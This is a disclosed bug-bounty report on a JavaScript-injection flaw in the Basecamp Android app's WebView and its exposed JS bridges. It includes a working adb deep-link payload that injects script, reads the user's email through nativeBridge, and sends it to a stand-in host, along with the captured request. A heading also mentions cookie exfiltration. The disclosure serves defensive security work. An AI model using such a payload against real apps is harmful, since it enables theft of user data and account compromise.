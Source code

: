 # com.basecamp.bc3 Webview Javascript Injection and JS bridge takeover

## Report Details
- **Report ID**: 1343300
- **URL**: https://hackerone.com/reports/1343300
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-09-18T13:11:19.476Z
- **Disclosed**: 2022-09-23T09:33:57.203Z

## Reporter
- **Username**: fr4via
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
It was identified that the android **com.basecamp.bc3 application**, contains a Webview where the loaded URLs are not sanitised properly. As this webview's functionality is extended via javascript interfaces and has the javascript enabled it is possible to inject arbitrary javascript code which will be executed by the application's webview and provide access to the java native code via the class **a.a.a.s.g** ( which is exposed via the NativeApp).  

##JS Bridge

The following JS Bridges are exposed:

###nativeBridge

{F1452715}

###NativeApp


{F1452717}

###TurboNative

{F1452718}

##Steps to Reproduce

1. Create a valid basecamp account 
2. Create a project 

{F1452720}

3. Open any Sub-project tab (e.g. Message Board - it is needed only ONE time in order to initialise the JS interface  )


Run the following command after replacing the XXXXX with the user id 

Example: {F1452730}

Command:
```
$adb shell am start -W -a android.intent.action.VIEW -d 'https://3.basecamp.com/XXXXX/p","advance","---"); /* comment */ window.location.replace("https://example.com?exfiltration="+nativeBridge.getPage().accountName); //'
```

Observer the HTTP requests of the app:

```
GET /?exfiltration=USER_EMAIL@gmail.com HTTP/2
Host: example.com
....
````

## Impact

Confidentiality, Integrity and availability are all affected from the specific vulnerability as the javascript code can be injected to an already loaded url while additional functionality is added via the exposed javascript interfaces:

###Javascript Injection:

{F1452742}

###Bridge Access

"Bucket Name:"+nativeBridge.getPage().bucketName + "Title: " + nativeBridge.getPage().title + "User email:" +nativeBridge.getPage().accountName);

{F1452750}

### Cookie exfiltration:

{F1452769}

## Attachments
- Screenshot_2021-09-18_at_1.00.48_PM.png
- Screenshot_2021-09-18_at_1.02.09_PM.png
- Screenshot_2021-09-18_at_1.02.54_PM.png
- Screenshot_2021-09-18_at_1.09.14_PM.png
- Screenshot_2021-09-18_at_1.25.20_PM.png
- Screenshot_2021-09-18_at_1.43.11_PM.png
- Screenshot_2021-09-18_at_1.43.25_PM.png
- Screenshot_2021-09-18_at_1.48.59_PM.png
- Screenshot_2021-09-18_at_2.10.50_PM.png
